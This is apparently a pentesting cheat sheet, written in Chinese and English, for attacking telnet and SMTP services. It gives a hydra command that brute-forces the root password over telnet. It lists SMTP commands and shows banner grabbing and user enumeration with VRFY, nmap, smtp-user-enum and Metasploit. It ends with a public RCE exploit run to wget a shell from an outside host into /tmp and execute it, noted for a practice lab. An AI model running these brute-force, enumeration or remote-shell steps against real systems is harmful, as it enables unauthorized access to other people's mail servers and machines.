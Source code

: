 ## 23-telnet

telnet 未加密，较多已知的RCE漏洞。

```bash
hydra -l root -P pwd.txt 192.168.3.2 telnet
```

## 25/464/587-smtp
+ 邮件服务，server2server。可获取email地址
+ smtp rce

|commands|comment|
|:----|:-----|
|HELO||
|EHLO|Extended SMTP|
|STARTTLS|SMTP communicted over unencrypted protocol. By starting TLS-session we encrypt the traffic|
|RCPT|Address of the recipient|
|DATA | Starts the transfer of the message contents|
|RSET|Used to abort the current email transaction.|
|MAIL | Specifies the email address of the sender.|
|QUIT | Closes the connection.|
|HELP | Asks for the help screen.|
|AUTH | Used to authenticate the client to the server.|
|VRFY | Asks the server to verify is the email user's mailbox exists.|
|EXPN| ask the server for membership of a mailing list|

```bash
port 25, Simple Mail Transport Protocal
#-banner
nc -nv ip 25
nc -nvC ip 25 //wireshark抓包，查看行结束符\r\n 增加-C
telnet ip 25

RCPT - Address of the recipient.
DATA - Starts the transfer of the message contents.

#手动获取,validate SMTP users
nc 192.168.3.2 25
VRFY root

telnet 192.168.3.2 25

#自动化&脚本
nmap --script smtp-commands.nse 192.68.3.2 
smtp-user-enum -M VRFY -U names.txt -t 192.168.3.2
msf > use auxiliary/scanner/smtp/smtp_enum 

# rce 47984, pg bratarina
## wget no need http://
python3 47984.py 192.168.135.71 25 'wget 192.168.49.135/shell -O /tmp/shell'
python3 47984.py 192.168.135.71 25 '/tmp/shell'

# sendmail
## -f, from address
## -t, to address
```
